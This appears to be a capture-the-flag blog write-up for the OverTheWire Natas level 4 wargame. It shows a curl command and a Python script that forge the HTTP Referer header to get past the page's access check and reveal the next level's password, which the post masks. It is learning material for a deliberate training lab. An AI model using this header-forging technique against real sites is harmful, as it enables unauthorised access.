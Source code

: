 ```yaml
---
layout: post
title:  "Natas Level 3 → Level 4"
date:   2021-05-23 19:09:25
categories: ctf wargames web-security
tags: wargames ctf overthewire web-security
series: "OverTheWire: Natas"
excerpt: Referrer madness
mathjax: false
---
```


## Level Goal
Excluding the URL and username, the Level Goal section is blank for the Natas ctf.


## Solution
```
<div id="content">

Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
```
You can solve this using [Burp Suite](https://portswigger.net/burp) or one of the many browser add-ons to forger referrer headers. I opted to solve this with curl. I ran into Java issues while trying to run Burp and didn't want to deal with them at this time.

Free free to use any method you'd like, just be certain to include the trailing slash in the referrer address or you won't be able to access the site.

Here's the curl solution:
```bash
curl -u natas4:Z------------------------------Z -e http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org/
...
<div id="content">

Access granted. The password for natas5 is i------------------------------q
<br/>
<div id="viewsource"><a href="index.php">Refresh page</a></div>
</div>
...
```

Here's the Python 3 version of the above:
```python
#!/usr/bin/env python
import requests
import base64
from requests.auth import HTTPBasicAuth

password = 'Z------------------------------Z'
auth = HTTPBasicAuth('natas4', password)
url = 'http://natas4.natas.labs.overthewire.org/index.php'
ref = 'http://natas5.natas.labs.overthewire.org/'

resp = requests.post(url, auth=auth, headers={'referer': ref})
print(resp.text)
```